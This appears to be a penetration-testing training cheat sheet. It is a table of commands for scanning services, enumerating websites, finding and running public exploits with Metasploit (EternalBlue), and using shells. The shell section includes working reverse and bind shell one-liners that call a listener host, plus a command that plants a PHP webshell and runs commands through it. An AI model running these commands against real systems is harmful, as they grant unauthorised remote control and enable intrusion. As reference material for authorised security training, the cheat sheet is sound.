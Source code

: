 | **Command**                                                  | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| **Service Scanning**                                         |                                                              |
| `nmap 10.129.42.253`                                         | Run nmap on an IP                                            |
| `nmap -sV -sC -p- 10.129.42.253`                             | Run an nmap script scan on an IP                             |
| `locate scripts/citrix`                                      | List various available nmap scripts                          |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40`       | Run an nmap script on an IP                                  |
| `netcat 10.10.10.10 22`                                      | Grab banner of an open port                                  |
| `smbclient -N -L \\\\10.129.42.253`                          | List SMB Shares                                              |
| `smbclient \\\\10.129.42.253\\users`                         | Connect to an SMB share                                      |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`   | Scan SNMP on an IP                                           |
| `onesixtyone -c dict.txt 10.129.42.254`                      | Brute force SNMP secret string                               |
| **Web Enumeration**                                          |                                                              |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website                            |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website                           |
| `curl -IL https://www.inlanefreight.com`                     | Grab website banner                                          |
| `whatweb 10.10.10.121`                                       | List details about the webserver/certificates                |
| `curl 10.10.10.121/robots.txt`                               | List potential directories in `robots.txt`                   |
| `ctrl+U`                                                     | View page source (in Firefox)                                |
| **Public Exploits**                                          |                                                              |
| `searchsploit openssh 7.2`                                   | Search for public exploits for a web application             |
| `msfconsole`                                                 | MSF: Start the Metasploit Framework                          |
| `search exploit eternalblue`                                 | MSF: Search for public exploits in MSF                       |
| `use exploit/windows/smb/ms17_010_psexec`                    | MSF: Start using an MSF module                               |
| `show options`                                               | MSF: Show required options for an MSF module                 |
| `set RHOSTS 10.10.10.40`                                     | MSF: Set a value for an MSF module option                    |
| `check`                                                      | MSF: Test if the target server is vulnerable                 |
| `exploit`                                                    | MSF: Run the exploit on the target server is vulnerable      |
| **Using Shells**                                             |                                                              |
| `nc -lvnp 1234`                                              | Start a `nc` listener on a local port                        |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`        | Send a reverse shell from the remote server                  |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server                      |
| `nc 10.10.10.1 1234`                                         | Connect to a bind shell started on the remote server         |
| `python -c 'import pty; pty.spawn("/bin/bash")'`             | Upgrade shell TTY (1)                                        |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice  | Upgrade shell TTY (2)                                        |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file                                   |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                | Execute a command on an uploaded webshell                    |

[1]: https://en.wikipedia.org/wiki/Tmux	"tmux on wikipedia"